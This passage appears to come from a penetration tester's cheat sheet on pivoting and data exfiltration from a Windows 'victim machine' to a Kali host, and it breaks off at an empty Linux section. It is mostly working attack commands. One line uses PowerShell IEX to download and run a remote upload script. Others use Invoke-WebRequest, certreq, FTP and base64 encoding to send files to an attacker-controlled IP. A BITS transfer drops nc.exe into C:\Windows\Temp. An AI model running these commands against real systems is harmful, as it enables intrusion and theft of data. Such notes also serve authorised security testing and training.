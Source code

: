 Can be used with `curl`:
```shell-session
$ curl -x socks5://127.0.0.1:LPORT https://127.0.0.1:RPORT
```

**Possible pathways after data-infiltration:**
- **[[Windows Privesc.]]**
# Exfiltration
## From Windows
### Base64
- From Windows
```powershell
PS > [Convert]::ToBase64String((Get-Content -path "C:\Path-to\file" -Encoding byte))
PS > Get-FileHash "C:\Path-to\file" -Algorithm MD5 | select Hash
```
-> On Kali
```shell-session
$ echo 'base64 string' | base64 -d
```
### Web Uploads
Create one from any [[#Servers]], and upload from Windows victim machine:
```powershell
PS > IEX(New-Object Net.WebClient).DownloadString('https://IP[:PORT]/Path-to/PSUpload.ps1')
PS > Invoke-FileUpload -Uri http://IP[:PORT]/upload -File C:\Path-to\file
```
```powershell
PS > Invoke-WebRequest -Uri 'http://<IP>[:<PORT>]/upload' -Method POST -InFile '.\file' -ContentType 'multipart/form-data'
PS > Invoke-RestMethod -Uri 'http://<IP>[:<PORT>]/upload' -Method POST -InFile '.\file' -ContentType 'multipart/form-data'
```
### CertReq
Used with [[#Servers#Netcat|Netcat Server]]
```powershell
> certreq.exe -Post -config http://<IP>[:<PORT>]/ file
```
### BITSadmin
```powershell
PS > Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
### Base64 + WebRequest/RestMethod
```powershell
PS > $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Path-to\file' -Encoding Byte))
PS > Invoke-WebRequest -Uri http://IP[:PORT]/ -Method POST -Body $b64
```
-> On kali
```shell-session
$ nc -nlvp PORT
```
### FTP
```powershell
PS > (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/file', 'C:\Local\path\to\file'
```
## From Linux
### Web Upload
Create one from any [[#Servers]], and upload from victim machine
```shell-session
```
